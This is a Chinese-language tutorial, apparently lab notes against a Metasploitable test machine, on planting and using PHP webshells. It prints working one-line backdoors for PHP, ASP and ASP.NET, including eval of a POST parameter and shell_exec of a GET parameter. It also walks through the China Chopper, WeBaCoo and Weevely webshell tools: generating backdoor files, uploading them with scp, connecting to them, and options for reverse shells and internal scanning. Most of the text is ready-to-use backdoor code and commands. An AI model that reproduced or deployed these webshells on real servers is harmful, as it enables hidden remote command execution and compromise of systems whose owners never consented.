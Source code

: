 

# WebShell

* Webshell 演示
* 中国菜刀的使用
* http1010101321php
* 输入密码pass
* WeBaCoo Web Backdoor Cookie
* Weevely

## Webshell 演示
* 在被攻击者新建 webshell 文件
``` 
root@metasploitable:/var/www# cat test.php 
<?php echo shell_exec($_GET['cmd']);?>

```
* 攻击者调用 webshell
``` 
http://10.10.10.132/test.php?cmd=id

```

## 中国菜刀的使用

* 一句话木马
``` 
PHP:    <?php @eval($_POST['pass']);?>
ASP:    <%eval request("pass")%>
ASP.NET:    <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>

```

* 复制 PHP 的一句话木马到服务器
``` 
root@metasploitable:/var/www# cat 1.php 
<?php @eval($_POST['pass']);?>

```

* 菜刀连接
1. 添加URL
2. 添加 shell
3. 双击打开 URL
4. 虚拟终端（ www-data权限 ）

## WeBaCoo (Web Backdoor Cookie)
* 简介
1. 类终端的shell，只针对 PHP
1. 编码通信内容通过 cookie 头传输，隐蔽性较强
1. Cookie: cm=aWQ=; cn=M-cookie; cp=pMi~
1. cm：bash64 编码之后的命令
1. cn：服务器用于返回数据的 cookie 头的名
1. cp：返回信息定界符

* 参数
``` 
Options:
  -g        Generate backdoor code (-o is required)

  -f FUNCTION   PHP System function to use
    FUNCTION
        1: system   (default)
        2: shell_exec
        3: exec
        4: passthru
        5: popen

  -o OUTPUT Generated backdoor output filename

  -r        Return un-obfuscated backdoor code

  -t        Establish remote "terminal" connection (-u is required)

  -u URL    Backdoor URL

  -e CMD    Single command execution mode (-t and -u are required)

  -m METHOD HTTP method to be used (default is GET)

  -c C_NAME Cookie name (default: "M-cookie")

  -d DELIM  Delimiter (default: New random for each request)

  -a AGENT  HTTP header user-agent (default exist)

  -p PROXY  Use proxy (tor, ip:port or user:pass:ip:port)

  -v LEVEL  Verbose level
    LEVEL
        0: no additional info (default)
        1: print HTTP headers
        2: print HTTP headers + data

  -l LOG    Log activity to file

  -h        Display help and exit

  update    Check for updates and apply if any

```

* 生成服务器端

1. webacoo -g -o webacoo.php
``` 
 -g        Generate backdoor code (-o is required)
 -o        OUTPUT Generated backdoor output filename

```
> root@kali:~# scp webacoo.php msfadmin@10.10.10.132:/tmp
2. 客户端端连接

``` 
-t        Establish remote "terminal" connection (-u is required)
-u        URL    Backdoor URL

webacoo -t -u http://10.10.10.132/webacoo.php
```

## Weevely

* 简介
1. 隐蔽的终端 PHP Webshell，只针对 PHP
2. 30 多个管理模块
    1. 执行系统命令
    1. 检查服务器常见配置错误
    1. 创建正向、反向 TCP Shell 连接
    1. 通过目标计算机代理iHTTP 流量
    1. 从目标计算机运行端口扫描，渗透内网
3. 支持连接密码

* Kali 缺少库
> https://pypi.python.org/pypi/PySocks/  
  ./setup.py install

* 生成服务器端
1. weevely generate password path
2. 默认路径在 /usr/share/weevely/
``` 
root@kali:~# weevely generate 123456 weevely.php
root@kali:/usr/share/weevely# cat weevely.php 

```
3. 上传到 靶机
> root@kali:/usr/share/weevely# scp weevely.php root@10.10.10.132:/var/www

* 客户端连接服务器
1. weevely URL passwo rd cmd
> root@kali:~# weevely http://10.10.10.132/weevely.php 123456

2. 连上靶机之后，可以使用 help 命令查看所有模块
> www-data@10.10.10.132:/var/www $ help  
  www-data@10.10.10.132:/var/www $ audit_suidsgid /  
  www-data@10.10.10.132:/var/www $ audit_filesystem  

